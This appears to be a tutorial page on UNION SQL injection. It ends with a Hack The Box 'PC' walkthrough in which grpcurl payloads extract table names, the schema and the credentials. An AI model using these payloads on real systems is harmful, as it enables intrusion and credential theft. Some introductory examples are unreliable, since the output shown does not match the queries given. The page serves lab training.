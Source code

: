 ```yaml
---
description: The Union clause is used to combine results from multiple SELECT statements.
---
```


# Union SQL injection

### What is a Union SQL injection?

Using the union clause we can combine results of multiple statements and so get the data from the entire database.

```
mysql> SELECT * FROM superheroes;
+----------+-----------+
| code     | name      |
+----------+-----------+
| 54       | Superman  |
| 55       | Spiderman |
| 56       | Iron Man  |
+----------+-----------+
```

Our select statement above extracts all data from the table superheroes. Now lets check what the table villains will return.

```
mysql> SELECT * FROM villains;
+----------+-----------+
| Arrests  | name      |
+----------+-----------+
| 150      | Joker     |
+----------+-----------+
```

Now if we use UNION SELECT it will combine the results

```
mysql> SELECT * FROM superheroes;
+----------+-----------+
| code     | name      |
+----------+-----------+
| 54       | Superman  |
| 55       | Spiderman |
| 150      | Joker     |
| 56       | Iron Man  |
+----------+-----------+
```

{% hint style="info" %}
A `UNION` statement can only operate on `SELECT` statements with an equal number of columns.
{% endhint %}

An example where an injection is possible in the query

```sql
SELECT * FROM products WHERE product_id = 'user_input'
```

In `'user_input'` we can inject `'1' UNION SELECT username, password from passwords-- '` to return usernames and passwords.

```sql
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '
```

### Un-even columns

Union clause only work with even columns. If we come across un-even columns we can put junk data in the remaining columns to even it out, like `SELECT 1 from passwords`.

If we had 2 colums

```sql
'1' UNION SELECT username, 2 from passwords
```

If we had 4 columns

```sql
'1' UNION SELECT username, 2, 3, 4 from passwords-- '

# this would return
mysql> SELECT * from products where product_id UNION SELECT username, 2, 3, 4 from passwords-- '

+-----------+-----------+-----------+-----------+
| product_1 | product_2 | product_3 | product_4 |
+-----------+-----------+-----------+-----------+
|   admin   |    2      |    3      |    4      |
+-----------+-----------+-----------+-----------+
```

## SQL injection

This vulnerbality can be found in [https://www.hackthebox.com/machines/pc](https://www.hackthebox.com/machines/pc)

Using [gRPC](grpc.md) we found an sqlite3 injection vulnerability in id parameter by combining the id 542 with sqlite version with the payload `'id: "542 union select sqlite_version();"'`.

{% code overflow="wrap" %}
```bash
$ sudo docker run fullstorydev/grpcurl -d 'id: "542 union select sqlite_version();"' -H "token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoibWN6ZW4iLCJleHAiOjE3MzA5OTk3MTN9.DQC0fqjcY92Yj4bQ_RWTq3XwlCmmsCGwpWJLUjimm6I" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo      
message: "3.31.1"
```
{% endcode %}

{% hint style="info" %}
Be sure the quotes and other special chars dont break the command.
{% endhint %}

Since this is using sqllite 3 we are using sqllite 3 [payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#string-based---extract-database-structure).

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

Extracting table name

The next step is to extract the table names using the payload

{% hint style="info" %}
`SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'`
{% endhint %}

```bash
$ sudo docker run fullstorydev/grpcurl -d 'id: "453 Union SELECT group_concat(tbl_name) FROM sqlite_master WHERE type=\"table\" and tbl_name NOT like \"sqlite_%\""' -H "token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoibWN6ZW4iLCJleHAiOjE3MzA5OTk3MTN9.DQC0fqjcY92Yj4bQ_RWTq3XwlCmmsCGwpWJLUjimm6I" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
message: "accounts,messages"
```

This returns the tables accounts and messages. Using the colums payload . We get back accounts, username, password in the table.

{% hint style="info" %}
SELECT sql FROM sqlite\_master WHERE type!='meta' AND sql NOT NULL AND name ='table\_name'
{% endhint %}

```bash
$ sudo docker run fullstorydev/grpcurl -d 'id: "453 Union SELECT sql FROM sqlite_master WHERE type!=\"meta\" AND sql NOT NULL AND name =\"accounts\""' -H "token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoibWN6ZW4iLCJleHAiOjE3MzA5OTk3MTN9.DQC0fqjcY92Yj4bQ_RWTq3XwlCmmsCGwpWJLUjimm6I" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
message: "CREATE TABLE \"accounts\" (\n\tusername TEXT UNIQUE,\n\tpassword TEXT\n)"
```

The next step is to retrieve password using the payload.

{% hint style="info" %}
`320 union select group_concat(username || ":" || password ) from accounts`
{% endhint %}

* `group_concat` will concatenate values from multiple rows into a single string
* `username || ":" || password` will concatenate columns with username password seperated by colon :.

```bash
$ sudo docker run fullstorydev/grpcurl -d 'id: "320 union select group_concat(username || \":\" || password ) from accounts"' -H "token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoibWN6ZW4iLCJleHAiOjE3MzA5OTk3MTN9.DQC0fqjcY92Yj4bQ_RWTq3XwlCmmsCGwpWJLUjimm6I" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
message: "admin:admin,sau:HereIsYourPassWord1431"
```
